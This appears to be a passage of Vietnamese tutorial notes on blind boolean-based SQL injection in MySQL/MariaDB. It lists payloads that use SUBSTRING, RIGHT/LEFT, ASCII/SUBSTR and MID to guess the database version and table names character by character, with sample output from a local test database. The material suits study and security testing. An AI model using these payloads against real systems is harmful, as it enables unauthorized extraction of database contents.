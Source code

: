 - Sử dụng hàm *SUBSTRING*

  - Payload: 

    ```mysql
    SELECT * FROM user WHERE id = 1 and SUBSTRING(version(),1,1)=1
    ```

    ```mysql
    MariaDB [xssuser]> select * from user where id = 1 and substring(version(),1,1)=2;
    Empty set (0.00 sec)
    ```

  - Số đầu tiên của *version mysql* của mình là 1, nên nếu bằng 2 thì sẽ sai nên không in ra kết quả

    ```mysql
    MariaDB [xssuser]> select * from user where id = 1 and substring(version(),1,1)=1;
    +----+---------+---------+---------+-------+
    | ID | USER    | PASS    | USERID  | LEVEL |
    +----+---------+---------+---------+-------+
    |  1 | admin04 | admin07 | dGhpcyB |     3 |
    +----+---------+---------+---------+-------+
    1 row in set (0.00 sec)
    ```

  - Khi cả 2 mệnh đề đều đúng thì sẽ xuất ra kết quả

  - Các kết quả của các hàm khác là như nhau nên mình chỉ đưa ra payload

- Sử dụng hàm *RIGHT* và *LEFT*

  - Payload:

    ```mysql
    SELECT * FROM user WHERE id = 1 AND RIGHT(LEFT(version(),1),1)=1
    ```

- Sử dụng bộ đôi *ASCII* và *SUBSTR* kết hợp *LOWER*

  - Payload:

    ```mysql
    SELECT * FROM user WHERE id = 1 AND ASCII(LOWER(SUBSTR(Version(),1,1)))=49
    ```

- Sử dụng *MID*

  - Payload;

    ```mysql
    SELECT * FROM user WHERE id = 1 AND (SELECT MID(version(),1,1)=1)
    ```

- Sử dụng *SUBSTR* để lấy ra *table name*

  - Payload:

    ```mysql
    (SELECT SUBSTRING(table_name,1,1) = 'm' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1)
    ```
